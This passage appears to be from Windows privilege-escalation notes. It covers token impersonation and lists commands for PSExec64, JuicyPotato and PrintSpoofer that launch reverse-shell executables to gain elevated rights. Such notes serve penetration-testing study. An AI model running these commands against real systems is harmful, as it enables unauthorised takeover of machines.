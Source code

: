 This should open a cmd.exe running as administrator.

---

## Token Impersonation

All of these require: `SeImpersonatePrivilege` or `SeAssignPrimaryToken`

If you need a local service account (possible), you can generate one as an admin using PSExec64.exe using: `.\PSExec64.exe -i -u "nt authority\local service" C:\temp\revshell.exe`

### JuicyPotato

Run:  `.\JuicyPotato.exe -l 1337 -p C:\temp\reverse.exe -t * -c {CLSID}`

Find a CLSID here: https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

### RoguePotato

### PrintSpoofer

Run: `.\PrintSpoofer.exe -i -c "C:\temp\revshell.exe"`


